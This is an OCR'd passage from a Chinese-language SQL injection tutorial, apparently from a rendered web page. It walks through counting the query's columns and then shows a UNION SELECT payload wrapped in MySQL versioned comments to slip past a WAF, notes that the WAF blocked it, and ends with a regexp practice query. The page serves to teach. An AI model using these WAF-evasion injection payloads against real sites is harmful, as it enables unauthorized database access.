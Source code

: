 ![Alt text](image-38.png)   
由此报错可以知道，该功能点查询的字段数量为 2。 接下来查看显示位。   
```shell
 -1'/**//*!11445union*/ select 1,2 -- 
```   
![Alt text](image-39.png)   
被`WAF`拦截，尝试隐藏`union`和`select`特征。    
```text
 regexp 函数，是使用正则匹配。
```  
正则函数练习：   
（1）查找用户名是`a`开头的用户。   
```sql
 select * from users where user regexp "^a";
```